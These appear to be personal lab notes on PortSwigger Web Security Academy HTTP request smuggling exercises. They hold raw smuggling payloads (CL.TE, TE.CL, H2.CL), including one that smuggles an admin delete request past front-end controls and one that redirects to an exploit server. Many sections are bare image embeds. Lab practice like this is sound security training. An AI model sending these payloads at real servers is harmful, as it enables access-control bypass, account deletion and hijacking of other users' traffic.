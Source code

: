 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]


# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![[Pasted image 20240815060930.png]]

# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

![[Pasted image 20240815063631.png]]

```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

![[Pasted image 20240815131026.png]]

# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

![[Pasted image 20240815133129.png]]


![[Pasted image 20240815133321.png]]

# Exploiting HTTP request smuggling to capture other users' requests

![[Pasted image 20240816042904.png]]

![[Pasted image 20240816042931.png]]

# Exploiting HTTP request smuggling to deliver reflected XSS

![[Pasted image 20240816045156.png]]

# Response queue poisoning via H2.TE request smuggling

![[Pasted image 20240817051727.png]]

# H2.CL request smuggling

- CL.0 desync: h2CL|GET /favicon.ico
![[Pasted image 20240817070314.png]]

```
POST / HTTP/2
Host: 0ae4007e047995e985021e1b0017001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a85002a042a95da85241d7a010e007b.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```


